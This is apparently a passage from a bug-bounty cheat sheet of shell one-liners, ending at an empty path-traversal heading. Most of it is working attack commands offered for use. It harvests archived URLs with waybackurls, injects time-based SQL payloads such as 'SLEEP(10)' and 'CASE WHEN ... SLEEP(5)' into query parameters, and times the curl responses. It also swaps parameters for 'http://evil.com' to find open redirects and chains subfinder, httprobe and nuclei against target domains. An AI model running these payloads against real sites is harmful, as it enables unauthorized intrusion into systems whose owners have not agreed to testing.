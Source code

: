### Time based SQL injection

1. apt install moreutils
2. apt install parallel

```
cat urls.txt | grep "=" | qsreplace "1 AND (SELECT 5230 FROM (SELECT(SLEEP(10)))SUmc)" > blindsqli.txt
```

### Time based SQL injection using Waybackurls

```
waybackurls https://TARGET.COM | grep -E '\bhttps?://\S+?=\S+' | grep -E '\.php|\.asp' | sort -u | sed 's/\(=[^&]*\)/=/g' | tee urls.txt | sort -u -o urls.txt 
```
```
cat urls.txt | sed 's/=/=(CASE%20WHEN%20(888=888)%20THEN%20SLEEP(5)%20ELSE%20888%20END)/g' | xargs -I{} bash -c 'echo -e "\ntarget : {}\n" && time curl "'{}'"'
```
────────────────────────────────────────────────────────────────────────



# Open Redirection

## Installation Requirements
1. Waybackurls : https://github.com/tomnomnom/waybackurls
2. Bhedak      : https://github.com/R0X4R/bhedak
3. GAU         : https://github.com/lc/gau
4. GF          : https://github.com/tomnomnom/gf
5. QS-Replace  : https://github.com/tomnomnom/qsreplace
6. HTTPX       : https://github.com/projectdiscovery/httpx
7. Subfinder   : https://github.com/projectdiscovery/subfinder
8. Httprobe    : https://github.com/tomnomnom/httprobe
9. Nuclei      : https://github.com/projectdiscovery/nuclei

## OneLiner

```
waybackurls TARGET.COM | grep -a -i \=http | qsreplace 'http://evil.com' | while read host do;do curl -s -L $host -I| grep "evil.com" && echo "$host \033[0;31mVulnerable\n" ;done
```

```
subfinder -dL domains.txt | httprobe |tee live_domain.txt; cat live_domain.txt | waybackurls | tee wayback.txt; cat wayback.txt | sort -u | grep "\?" > open.txt; nuclei -t Url-Redirection-Catcher.yaml -l open.txt
```

────────────────────────────────────────────────────────────────────────



# NGINX Path Traversal
